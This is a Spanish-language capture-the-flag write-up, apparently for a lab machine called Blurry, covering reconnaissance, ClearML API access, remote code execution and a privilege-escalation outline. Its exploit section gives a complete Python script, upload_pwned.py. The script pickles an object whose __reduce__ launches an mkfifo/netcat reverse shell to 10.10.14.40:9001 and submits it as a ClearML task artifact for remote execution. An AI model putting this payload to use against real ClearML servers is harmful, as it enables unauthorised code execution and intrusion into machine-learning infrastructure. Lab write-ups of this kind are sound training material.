 #medium #tecnicas #windows #fuzzing 
### Ping
```python
ping -c 1 10.10.11.19
PING 10.10.11.19 (10.10.11.19) 56(84) bytes of data.
64 bytes from 10.10.11.19: icmp_seq=1 ttl=63 time=152 ms

--- 10.10.11.19 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 152.472/152.472/152.472/0.000 ms
```

### TTL 63 = Linux

### nmap
```python
# Nmap 7.94SVN scan initiated Sun Jun  9 12:19:54 2024 as: nmap -p- --open -sC -sV --min-rate 3000 -n -Pn -oN Scan 10.10.11.19
Nmap scan report for 10.10.11.19
Host is up (0.15s latency).
Not shown: 65477 closed tcp ports (reset), 56 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  9 12:20:32 2024 -- 1 IP address (1 host up) scanned in 38.23 seconds
```

### Enumeración del puerto 80 (http)

tenemos una web que nos permite iniciar sesión con un usuario aleatorio. en este caso usamos admin
![[Pasted image 20240609155324.png]]

`admin`
después de iniciar sesión podemos identificar un proceso que se esta ejecutando
![[Pasted image 20240609155509.png]]

`experiments`
después de hacer clic en el proceso podemos ver el file path de un archivo en la web. se encuentra en otro subdominio así que vamos a enumerar
![[Pasted image 20240609155706.png]]

### Fuzzing con wfuzz

enumerando subdominios podemos encontrar efectivamente el subdominio donde se encuentra el archivo que hemos visto anteriormente y tenemos uno mas llamado `chat` 
![[Pasted image 20240609155815.png]]

### Api
podemos obtener las credenciales de una api lo cual es bueno.
![[Pasted image 20240611122420.png]]

### clearml-ini
al abrir `clearml-ini` vamos a ingresar las credenciales de la api que creamos esto nos creara un archivo `clearml.config` en el home 
![[Pasted image 20240611125038.png]]

### exploit
en esta web nos muestra un ejemplo de como aprovechar la vulnerabilidad para subir un archivo y poder tener ejecución de comandos usaremos este ejemplo para crear nuestro propio exploit para poder cargar un archivo a la maquina llamado `ddd-task` con la reverse shell 
![[Pasted image 20240611125301.png]]

### upload_pwned.py
```python
```python
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.40 9001 >/tmp/f"
        return (os.system, (cmd,))

command = RunCommand()

task = Task.init(project_name="Black Swan",
                 task_name="ddd-task",
                 tags=["review"],
                 task_type=Task.TaskTypes.data_processing,
                 output_uri=True)

task.upload_artifact(name="ddd_artifact",
                     artifact_object=command,
                     retries=2,
                     wait_on_upload=True)

task.execute_remotely(queue_name='default')
```

### shell
ahora solo debemos ejecutar el exploit y estaremos a la escucha para obtener la reverse shell. se subirá una nueva tarea al proyecto y luego de eso debemos esperar que se complete. 
`Nota# si no obtenemos la shell podemos usar ```clearml-agent execute --id``` pasandole el id de nuestra tarea para que se ejecute. y luego solo debemos esperar un rato para que este proceso se complete` 
![[Pasted image 20240611125901.png]]

### Escalada De privilegios

tenemos permisos sobre el binario `/usr/bin/evaluate_model /models/*.pth` así que podemos usarlo para explotar una escalada de privilegios
![[Pasted image 20240611141132.png]]

`este script esta llamdo a otro script llamado /modules/evaluate_model.py haciendo uso de la funcion /models/*.pth esto nos va a permitir modificar el archivo para poder escalar privilegios`
![[Pasted image 20240611154349.png]]


![[Pasted image 20240611152721.png]]